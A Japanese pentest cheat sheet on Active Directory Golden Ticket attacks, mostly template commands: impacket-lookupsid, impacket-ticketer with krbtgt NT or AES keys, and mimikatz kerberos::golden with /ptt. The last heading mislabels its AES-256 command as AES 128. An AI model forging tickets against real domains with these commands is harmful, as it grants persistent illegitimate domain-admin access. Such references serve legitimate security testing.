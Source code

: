 # Golden Tickets攻撃

`Golden Ticket` とは、Active Directory認証において攻撃者が作成したTGT(Ticket Granting Ticket)を指す。攻撃者は有効期限が長いTGTを作成し正規のドメイン管理者に長期的になりすますことを目的としている。Golden Ticketを悪用する攻撃は [Pass-the-Ticket攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Movement/Kerberos/Pass%20The%20Ticket.md)の一種。

## 攻撃に必要なもの

ゴールデンチケットを作成するために、テスターは`krbtgt` のRC4キー（NTハッシュ）またはAESキー（128ビットまたは256ビット）を見つける必要がある。ほとんどの場合、これはDCSync攻撃を通してドメイン管理者権限でのみ達成可能。このため、ゴールデンチケットは横方向の移動のみを可能にし、特権の昇格はできない。

- krbtgtのRC4 key(NTLM hash) or AES key

- DOMAINのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

## チケットの取得

### Linux

with an NT hash

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

with an AES (128 or 256 bits) key

```
# AES 128/256bits key
impacket-ticketer -aesKey <Krbtgt_Aeskey> -domain_sid <DOMAIN_SID> -domain <DOMAIN> stegosaurus
```

カスタムユーザー/グループIDでゴールデンチケットRC4キー(NTLMハッシュ)を作成する

```
impacket-ticketer -nthash <Krbtgt_NTLM> -domain_sid <DOMAIN_SID> -domain <DOMAIN> -user-id <USER_RID> -groups "<Groupid1>,<Groupid2>,..." stegosaurus
```

### Windows

with an NT hash

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /rc4:<krbtgt_NThash> /user:Administrator /ptt
```

with an AES 128 key

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /aes128:<krbtgt_aes128_key> /user:Administrator /ptt
```

with an AES 128 key

```
kerberos::golden /domain:<DOMAIN> /sid:<Domain_SID> /aes256:<krbtgt_aes256_key> /user:Administrator /ptt
```